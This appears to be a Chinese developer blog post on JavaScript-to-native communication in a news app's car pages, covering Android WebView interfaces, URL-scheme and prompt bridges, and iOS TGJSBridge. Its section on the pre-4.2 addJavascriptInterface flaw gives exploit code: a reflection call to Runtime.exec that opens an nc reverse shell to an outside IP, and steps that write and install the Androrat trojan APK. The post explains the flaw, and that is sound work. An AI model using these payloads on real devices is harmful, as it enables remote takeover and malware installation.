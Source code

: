 ```yaml
---
layout: post
title: 在APP中实现js与native通信
categories:
- 前端
tags:
- native通信
- 新闻客户端
- jsbridge
---
```


在订制腾讯新闻客户端的汽车页卡时，有些页面是用HTML页面实现的。比如车系详情页，车型详情页。这类页面因为汽车运营的关系具有不定期更新的特点。比如车型降价，新车上市等。使用HTML页面之后，有些数据需要从客户端传递过来，也有一些数据需要从页面传递到客户端，也就是HTML与客户端之间通信的问题。

## Android平台
### Android调用JS
{% highlight java %}
WebView.loadUrl("javascript:onJsAndroid()");
{% endhighlight %}

###JS调用Android
{% highlight java %}
// Android java代码
mWebView.addJavascriptInterface(new Class(),"android");  

public class Class(){
  @JavascriptInterface
  public void methodOne(){

  }
} 

// js 代码
window.android.methodOne();
{% endhighlight %}

### 弊端
在Android 4.2之前的版本中，通过addJavascriptInterface然后利用java的反射机制，可以回调java类中的内置静态变量。

首先，通过java可以反弹shell，这样可以读写Android文件系统。
{% highlight javascript %}
function execute(cmdArgs)
{
  return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
{% endhighlight %}

其次，可以对网页挂马，安装apk到手机中
{% highlight javascript %}
function execute(cmdArgs)
{
  return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 
 
var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4"
 
var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94"
 
var armBinary3="…"
var armBinary4="…"
// ……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);

execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);

{% endhighlight %}
以上流程，可以将apk进行拆分，利用echo写入到文件系统中，然后利用adb进行安装。

在Android 4.2版本中，开始使用@JavascriptInterface，然后在java代码中验证js调用的每个参数，屏蔽攻击代码，可以防止攻击。

汽车垂直化方案
新闻客户端提供两种js调用native的方式

* url scheme方式
通过伪协议"jsbridge://get_with_json_data?json=params", native代码重写shouldOverrideUrlLoading来做相关接口的实现和白名单控制
{% highlight javascript %}
/**
 * webview代码中通过监听onLoadResource触发调用Java方法
 */
function resourceCall() {
  var paramsArray = S.call(arguments, 0);
  var img = new Image();
  img.onload = function() {
    img = null;
  };
  img.src = 'jsbridge://get_with_json_data?json=' + encodeURIComponent(arrayToJsonString(paramsArray));
}
{% endhighlight %}
* prompt方式
这种方式是通过native重写onJsPrompt，拦截webview中的window.prompt并且获取其中的参数，处理完成之后需要调用JsPromptResult的confirm方法。
{% highlight javascript %}
/**
 * 通过prompt调用Java对象方法
 */
function promptCall() {
  var paramsArray = S.call(arguments, 0);
  var jsonResult = prompt(arrayToJsonString(paramsArray));
  var re = JSON.parse(jsonResult);
  if (re.code != 200) {
    throw "call error, code:" + re.code + ", message:" + re.result;
  }
  return re.result;
}
{% endhighlight %}

更多Android下js调用native的方案见此：[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

将与native通信用到的接口挂载在window.XXX下，调用window.XXX.YYY就可以调用native的方法。

## iOS平台
### iOS调用JS
{% highlight objective-c %}
// stringByEvaluatingJavaScriptFromString可以将字符串当做js来执行，在全局变量中定义js方法之后，OC就可以调用
- (void)webViewDidFinishLoad:(UIWebView *)webView {  
  NSString *currentURL = [webView stringByEvaluatingJavaScriptFromString:@"document.location.href"];
}
{% endhighlight %}

### JS调用iOS
js调用iOS，用到了开源库[TGJSBridge](https://github.com/ohsc/TGJSBridge)。其基本原理是利用伪协议"jsbridge://PostNotificationWithId-"，在native代码shouldStartLoadWithRequest中捕获并解析请求，然后调用相关的native逻辑。使用流程如下。
{% highlight javascript %}
// js向native发送修改页面标题的通知
jsBridge.postNotification('setTitle', {
  title : data.value
});
{% endhighlight %}
{% highlight objective-c %}
// 初始化jsBridge
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    NSString *jsBridgePath = [[NSBundle mainBundle] pathForResource:@"TGJSBridge" ofType:@"js"];
    NSString *jsBridge = [NSString stringWithContentsOfFile:jsBridgePath encoding:NSUTF8StringEncoding error:nil];
    [self.webView stringByEvaluatingJavaScriptFromString:jsBridge];
    
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
    [self showLoading:NO animated:YES];
}

// 响应js端发送的通知"setTitle",修改页面标题
- (void)jsBridge:(TGJSBridge *)bridge setTitleWithUserInfo:(NSDictionary *)userInfo fromWebView:(UIWebView *)webview
{
//    NSString *titleName = QNString([userInfo objectForKey:@"title"], _carSerialName);
    ((QNTitleView *)self.qn_navigationItem.titleView).text = QNString([userInfo objectForKey:@"title"], _carSerialName);
}
{% endhighlight %}

在js调用iOS时，有一个前提，就是native代码中需要首先完成jsBridge的初始化。TGJSBridge提供了一个jsBridgeReady的事件，js端监听jsBridgeReady事件并在事件处理函数中再向native发送通知。

但是有个问题，新闻客户端将TGJSBridge.js文件打包到了安装包中，web页面无需再引入此js文件。在处理像设置页面标题这种问题时，即页面加载完成之后就需要马上向native发送通知的情况，就会有问题。

* js端直接调用jsBridge.bind('jsBridgeReady')——jsBridge可能还未初始化，并不在window的context中。
* 将jsBridge初始化操作提前，放在webViewDidStartLoad——jsBridgeReady已经被触发，但是页面js端还没开始监听jsBridgeReady事件。

native与js的jsBridge初始化调用顺序相互依赖，需要处理好，才能解决像setTitle这种操作。

**新闻客户端汽车页卡车系详情页的解决方式**
{% highlight javascript %}
//提供给ios调用的方法
var mutex = false;
window.onJsBridgeReady = function(){
  if(mutex){
    return;
  }
  try{
    nanoEvtProxy.on('iosnews:settit', function(data){
      jsBridge.postNotification('setTitle', {
        title : data.value
      });
    });
    nanoEvtProxy.trigger('iosnews:ready');
  }catch(e){

  }
  mutex = true;
}

// iosnews:ready被触发之后，说明native已经完成jsBridge初始化工作。
// 然后再触发iosnews:settit事件，
// 而在上面的代码中iosnews:settit事件已经完成监听，可以向native发送通知。
nanoEvtProxy.on('iosnews:ready', function(e, data){
  nanoEvtProxy.trigger('iosnews:settit', data);  
});
{% endhighlight %}

{% highlight objective-c %}
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    
    // jsBridge初始化代码
    
    // 页面加载完成之后调用页面中定义的onJsBridgeReady方法
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
}
{% endhighlight %}

以上流程中，各种事件的监听和触发确实比较绕。但是梳理下来，是可以保证页面标题能正常而且尽可能快的被设置的。

## 参考
[WebView中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)

[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

[WebView中JavaScript与Objective-C的交互](http://blog.csdn.net/perry_xiao/article/details/8027249)
